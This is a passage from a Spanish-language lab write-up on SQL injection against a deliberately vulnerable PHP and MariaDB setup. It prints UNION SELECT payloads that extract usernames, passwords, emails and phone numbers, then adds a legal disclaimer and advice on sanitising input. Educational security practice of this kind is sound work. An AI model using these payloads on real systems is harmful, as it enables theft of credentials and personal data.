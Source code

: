 Una vez obtenidas las columnas, se usaron las siguientes inyecciones para obtener los datos de la tabla `users`:

```sql
' UNION SELECT username, password FROM users --
```

## 5. Obtener Información de Otros Elementos Sensibles

A lo largo del ejercicio, se siguieron utilizando inyecciones para obtener otros datos sensibles de las tablas:

```sql
' UNION SELECT id, name FROM products --
' UNION SELECT email, phone FROM contacts --
```

Estas inyecciones permitieron extraer información valiosa sobre los usuarios y productos almacenados en la base de datos a través de la vulnerabilidad de inyección SQL en las URLs.

---

**Nota:** Las inyecciones mostradas son ejemplos educativos sobre cómo identificar y explotar vulnerabilidades de inyección SQL. Solo se deben realizar pruebas de este tipo en entornos controlados y con permisos explícitos para evitar consecuencias legales.

---
# Conclusión

Esta serie de pasos muestra cómo se configura un entorno de servidor web con Apache y MariaDB, se crea y gestiona una base de datos y se establece un script PHP vulnerable a inyección SQL. Es fundamental recordar que en un entorno real, todas las entradas deben ser debidamente sanitizadas para evitar vulnerabilidades críticas.

---
### Referencias

Visita la fuente oficial: [Hoja de trucos de Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[^1]: [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/OWASP TOP 10 ⚠️/Bases de datos db 🗃️/SQL/Hoja de Trucos]]

